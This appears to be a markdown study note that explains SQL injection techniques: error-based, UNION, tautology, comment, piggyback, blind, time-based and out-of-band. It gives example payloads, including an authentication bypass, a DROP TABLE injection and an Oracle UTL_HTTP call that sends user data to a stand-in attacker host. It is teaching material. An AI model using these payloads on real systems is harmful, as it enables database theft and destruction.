# SQL Injection

## SQL Injection Types

- Types include
  - [In-band SQL injection](#in-band-sql-injection)
  - [Blind SQL injection](#blind-sql-injection)
  - [Out-of-band SQL injection](#out-of-band-sql-injection)
- Other classifications sometimes include
  - **Database management system-specific SQL injection**
    - Using specific SQL statements to certain database engine.
  - **Compounded SQL injection**
    - Combining SQL injection with other web application attacks such as • insufficient authentication • DDoS attacks • DNS hijacking • XSS.
    - E.g. DDoSing through `http://cloudarchitecture.io/azure?id=2 and WAITFOR DELAY '0:0:50'`
  - **Second-order SQL injection**
    - When user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way.
    - E.g. during login user name and password is retrieved as `WHERE username="$username" and password="$password"`, one could then set a password as `"); drop table users;` to delete the table and it will only executed during user login.

### In-band SQL injection

- Also known as • **classic SQL injection** • **in-band SQLi** • **classic SQLi**.
- Attacker uses one channel to inject malicious queries and retrieve results.

#### Error-based SQL injection

- Causing database to throw errors and in such a way to identify the vulnerabilities
- One of the most common injections
- Examples
  - Through parameter tampering in GET/POST requests
    - E.g. adding `′` in the end: `http://testphp.vulnweb.com/listproducts.php?cat=1′`
      - Shows error: `Error: Check the manual that corresponds to your MySQL server version. Invalid syntax "' at line 1 Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/listproducts.php on line 74`
      - Reveals file names, database type etc.
    - Can use e.g. [Burp Suite](./../05-vulnerabilities/vulnerability-analysis.md#burp-suite)
  - Converting anything to integer: `or 1=convert(int, (select * from tablename))`
    - `Syntax error converting the nvarchar value '<sql execution result>'`

#### System stored procedure

- **Stored procedure**: Precompiled function-like SQL statements supported by many DBMS.
- Injecting malicious queries into stored procedures
- E.g. `@vname` is vulnerable to injection in following procedure:

  ```sql
    CREATE PROCEDURE getDescription
      @vname VARCHAR(50)
    AS
      EXEC('SELECT description FROM products WHERE name = '''+@vname+ '''')
    RETURN
  ```

#### Illegal/Logically incorrect query

- Goal is to gather information about the type and structure of the back-end database.
- Considered as a preliminary step for further attacks.
- Attacker takes advantage of error messages sent by the database on incorrect queries.
- Often exposes the names of tables and columns.
- E.g. `SELECT*FROM table_nameWHERE id=@id"` (missing whitespaces) would cause incorrect syntax error.

#### UNION SQL injection

- 📝 Using the `UNION` operator to inject a malicious query.
- Allows appending results to the original query.
- E.g. `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

#### Tautology

- Manipulating the `WHERE` operator in the query to always have a `true` value
- 📝 Utilizes `OR` operator e.g. by appending `OR 1 = 1`
- E.g. `select * from user_details where userid = 'abcd' and password = 'anything' or 'x'='x'`
- 🤗 In logic, a tautology is a formula which is true in every possible interpretation
  - E.g. either it will rain tomorrow, or it won't rain

#### Comment SQL injection

##### End-of line comment

- Also known as • **terminating query** • **single-line comment** • ***end-of-line comment** • **end of line comment**.
- 📝 Usually done by adding `--` at the end of the injected query
  - `--` (two dashes): comment out the rest so SQL engine ignores the rest of the query
- E.g. by appending `' or 1 = 1 --` in the end of the query would ignore the password check
  - `select * from users where name='injection starts here' or 1=1 --' AND password='pwd'`
  - Basically tells the server if 1 = 1 (always true) to allow the login.
  - Double dash (--) tells the server to ignore the rest of the query

##### Inline comments

- Using C-style comments to eliminate a part of the query.
- Requires attacker having a good idea of how the input is integrated.
- E.g.
  - Query is

    ```sql
      $sql = "INSERT INTO members (username, isadmin, password) VALUES ('".$username."', 0, '".$password."')"
    ```

  - Attackers input include `username` and `password`
  - Attacker enters following values to avoid password check:
    - `attacker', 1, /*`
    - `*/'pwd`
  - It then generate:

    ```sql
      INSERT INTO members (username, isadmin, password) VALUES ('attacker', 1, /*', 0, '*/'pwd')
    ```

#### Piggyback query

- Also known as • **piggybacked query** • **piggy-backed query** • **statement injection**
- Appending malicious query to the end of the original one.
- Common way is to append the query delimiter (`;`)
  - E.g. `normal SQL statement + ";" + INSERT (or UPDATE, DELETE, DROP) <rest of injected query>`

### Blind SQL injection

- Also known as • **blind SQLi** • **inferential SQL injection** • **inferential SQLi** • **inference SQL injection** • **inference SQLi**
- Attacker is unable to see the direct results of the injected queries
  - instead attacker observes web applications response and behavior.
- As database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions.
- Allows remote database fingerprinting to e.g. know which type of database is in use
- Can be automated using e.g.
  - [Absinthe :: Automated Blind SQL Injection](https://github.com/cameronhotchkies/Absinthe)
  - [SQLBrute](https://securiteam.com/tools/5IP0L20I0E), multi threaded blind SQL injection bruteforcer in Python
  - [bsqlbf](https://code.google.com/archive/p/bsqlbf-v2/), a blind SQL injection tool in Perl

#### Boolean-based blind SQL

- Also called **content-based blind SQL**
- Attacker forms queries to return `true` or `false`
- Depends on changing HTTP results depending on SQL results for each condition.
- Allows enumerating the database character by character (slow)
- E.g.
  - URL: `http://newspaper.com/items.php?id=2`
  - Query in back-end: `SELECT title, description, body FROM items WHERE ID = 2`
  - Attacker sends `http://newspaper.com/items.php?id=2 and 1=2` to make it return `false`
  - Attacker inspects if application shows a page or with which status code

#### Time-based SQL injection

- Also called • **time delay SQL injection** • **double blind SQL injection** • **2blind SQL injection**
- 📝 Using time delay to evaluate the result (true or false) of the malicious query
- Allows for testing of existing vulnerabilities.
- Uses commands like `waitfor`, `sleep`, `benchmark`
  - Helps with database fingerprinting as MySQL, MSSQL, and Oracle have different functions to get current time.
  - E.g. `http://www.site.com/vulnerable.php?id=1' waitfor delay '00:00:10'--`
- Allows enumerating each character (very slow)
  - E.g. if database name starts with A, wait 10 seconds
  - Can use character comparison, regex or `LIKE` in Microsoft SQL.
- Time consuming, but there are automated tools such as [`sqlmap`](http://sqlmap.org/)

##### Heavy query

- Injecting queries that takes time to test
- Useful when time functions such as `waitfor` are disabled by administrator
- E.g. `SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C`
  - Can inject something like: `1 AND 1>(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C)`

### Out-of-band SQL injection

- Also known as • **OOB injection** • **OOB SQLi**
- Exhilarate data through outbound channel
  - E.g. e-mail sending or file writing/reading functionalities
- Difficult as it depends on target having
  - Supported databases that can initiate outbound DNS or HTTP requests
  - Lack of input validation
  - Network access to the database server
  - Privileges execute the necessary function
- E.g. `||UTL_HTTP.request('http://test.attacker.com/'||(SELECT user FROM users))`
